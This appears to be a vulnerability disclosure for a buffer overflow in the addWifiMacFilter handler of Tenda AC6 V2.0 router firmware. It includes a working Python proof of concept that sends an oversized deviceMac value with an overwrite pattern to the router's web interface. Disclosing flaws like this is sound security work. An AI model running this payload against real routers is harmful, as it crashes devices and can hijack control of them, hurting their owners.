 # Tenda AC6V2.0_V15.03.06.23_multi firmware is vulnerable to Buffer Overflow via function "addWifiMacFilter"

Firmware download website:

[AC6V2.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/102855)

In the `addWifiMacFilter` function, the parameters **deviceID** and **deviceMac** are read into `device_id` and `device_mac` respectively using `websGetVar`. These inputs are then passed to `sprintf(mib_value, "%s;%d;%s", device_mac, 1, device_id);` without prior validation. Since **mib_value** is only 256 bytes in size, providing an overly long **deviceID** or **deviceMac** can directly cause a **buffer overflow**.

![image-20250614175044050](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250614175044050.png)

poc

```
import requests
def send_payload(url, id,mac):
    params = {'deviceId': id,'deviceMac': mac}
    response = requests.get(url, params=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")
url="http://192.168.1.1/goform/addWifiMacFilter"
id=""
mac=b'a'*0x2048+b"\xef\xbe\xad\xde"
send_payload(url, id, mac)
```

![image-20250614175617189](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250614175617189.png)